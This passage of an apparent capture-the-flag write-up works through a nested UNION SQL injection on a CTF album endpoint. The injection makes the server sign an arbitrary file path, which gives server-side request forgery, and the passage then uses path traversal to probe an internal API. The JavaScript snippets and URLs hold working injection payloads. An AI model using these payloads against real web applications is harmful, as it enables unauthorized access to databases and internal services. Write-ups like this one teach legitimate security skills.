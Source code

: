 Yup, we can fetch whatever album we'd like without using the hash. So what?

\* **Several hours spent trying to find ways to priv esc the database or random files through `uploads/` later** *

Back to the SQLi again. Maybe we can do a double union? I mean, we have found nothing else, and it's definitely fetching the pictures out of the database before displaying them. Let's see if we can construct an SQLi on the album id fetched from the database and affect the photo filename, the third column, loaded out of photos when the album page goes to load those from the DB:
```javascript
// this query assumes the /album first fetches the album id using hash
// and then plugs that album id into a query to fetch any relevant photos
// ie, the photo query's where statement becomes `album_id = 3' union select all 1, 2, 'waffle --
// this in turn will give us another row fetched where the photo url will include waffle
sql = `' union all select "3' union all select 1, 2, 'waffle -- ' -- ", 3, 'test' -- `;
encodeURI(`https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=${sql}`);
```
Gives us this link https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash='%20union%20all%20select%20%223'%20union%20all%20select%201,%202,%20'waffle%20--%20'%20--%20%22,%203,%20'test'%20--%20 which includes a picture that can't be displayed!

Opening the link directly results in this:

{F1138535}

The missing image link's data payload decodes to:
```javascript
atob("eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL3dhZmZsZSAtLSAiLCJhdXRoIjoiNGYwNzdlYjJhZDJmYzI3Y2Q5ZGVlMmJmZGE3NjNiZDcifQ==");
"{
  "image":"r3c0n_server_4fdk59\/uploads\/waffle -- ",
  "auth":"4f077eb2ad2fc27cd9dee2bfda763bd7"
}"
```

Following the [link](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL3dhZmZsZSAtLSAiLCJhdXRoIjoiNGYwNzdlYjJhZDJmYzI3Y2Q5ZGVlMmJmZGE3NjNiZDcifQ==), we are presented with the following message:

{F1138534}

Since it isn't a raw 404, it looks like `picture` really tried to read `waffle` from uploads. Apparently, the server has calculated the `auth` property for us and we have successfully achieved SSRF! Using the same method, let's see if we can access the API now by trying `api/user` again:
```javascript
sql = `' union all select "3' union all select 1, 2, '../api/user' -- ", 3, 'test' -- `;
encodeURI(`https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=${sql}`);
```
[Resulting link](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash='%20union%20all%20select%20%223'%20union%20all%20select%201,%202,%20'../api/user'%20--%20%22,%203,%20'test'%20--%20)
[Image link](https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXIiLCJhdXRoIjoiYmZiNmRkMDRlNjZlODU1NjRkZWJiYTNlN2IyMjJlMzQifQ==)
{F1138662}

Nope. Perhaps we need to specify a user? Let's try appending `?id=1`
